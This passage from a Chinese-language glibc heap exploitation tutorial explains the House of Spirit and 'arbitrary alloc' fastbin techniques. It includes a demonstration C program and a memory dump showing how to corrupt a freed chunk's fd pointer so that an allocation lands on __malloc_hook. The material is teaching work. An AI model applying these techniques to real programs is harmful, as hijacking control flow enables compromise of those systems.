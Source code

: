 ```
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


##小总结
通过HOS我们可以把fastbin chunk分配到栈中，从而控制返回地址等关键数据。</br>
要实现这一点我们需要劫持fastbin中chunk的fd域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。


## arbitrary alloc
arbitrary alloc其实与House of Spirit是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的size域，我们可以把chunk分配到任意的可写内存中，比如bss、heap、data、stack等等。

## 演示
有些同学可能会认为HOS与arbitrary alloc没有什么区别因此没有必要分为两类，这里我们使用如下的这个例子来说明这种利用手法与HOS的意义是不同的。</br>
这个例子是使用字节错位来实现直接分配fastbin到__malloc_hook的位置，相当于直接写入__malloc_hook来控制程序流程。
```
int main(void)
{
    
    
    void *chunk1;
    void *chunk_a;
    
    chunk1=malloc(0x60);
    
    free(chunk1);
    
    *(long long *)chunk1=0x7ffff7dd1b05;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况</br>
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```
0x7ffff7dd1b10是我们想要控制的__malloc_hook的内容，于是我们向上寻找是否可以错位出一个合法的size域。因为我们是在64位系统下进行的调试，因此fastbin的范围为32字节到128字节(0x20-0x80),如下：
```
//这里的size指用户区域，因此要小2倍字长
Fastbins[idx=0, size=0x10] 
Fastbins[idx=1, size=0x20] 
```

  [1]: http://static.zybuluo.com/vbty/e8k7kq9w9a0fzm0qxfpzwpw5/%E6%8D%95%E8%8E%B7.PNG
  [2]: http://static.zybuluo.com/vbty/48ue5xatzz40sif5qnqu8syz/%E6%8D%95%E8%8E%B7.PNG
  [3]: http://static.zybuluo.com/vbty/0101jwbohr0r8sjha5yvxuu6/%E6%8D%95%E8%8E%B7.PNG
  [4]: http://static.zybuluo.com/vbty/ggyvxt73jujf9qlcnm429khb/%E6%8D%95%E8%8E%B7.PNG